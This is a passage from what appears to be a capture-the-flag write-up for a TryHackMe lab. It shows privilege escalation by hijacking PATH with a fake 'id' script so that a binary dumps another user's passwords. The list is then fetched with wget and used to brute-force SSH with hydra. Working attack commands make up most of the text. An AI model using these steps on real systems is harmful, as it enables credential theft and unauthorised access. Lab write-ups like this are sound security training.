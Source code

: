 The output is parsed, and it detects the current user is `www-data`.

Then it looks for `/home/www-data/.passwords` but doesn't find it.

🔐 Key Insight
Since the binary uses `clone()` (which implies it uses `popen()` internally), and calls `id` without full path, you can trick it by making a `fake id binary` earlier in your `PATH`.

🔎 Explanation:
- It runs the `id` command to determine which user is executing the program.
- You are currently user `www-data`, so it tries to read `/home/www-data/.passwords`, But that file doesn't exist → hence the error.
- We need a trick in executable file `/usr/sbin/pwm` to make UID `think` the owner of the file `/home/www-data/.passwords` instead of UID `www-data` via `Spoof binary id command`, then we can read it.


`Spoof binary` using `PATH` hijack:

- Make a fake id binary
```sh
cd /tmp
echo '#!/bin/bash' > /tmp/id
echo "echo 'uid=33(think) gid=33(think) groups=33(think)'" >> /tmp/id
chmod +x id
```

- Hijack the PATH
```sh
export PATH=/tmp:$PATH
```

- Run the binary

now we can read it & Extracting Password Wordlist:
```sh
/usr/sbin/pwm
```

```sh
/usr/sbin/pwm > passwords
```

### Brute-force SSH using harvested passwords
```sh
python3 -m http.server 8080
```

```sh
# From attacker:
wget http://lookup.thm:8080/passwords

hydra -l think -P passwords -f lookup.thm ssh
```

```sh
ssh think@lookup.thm
```
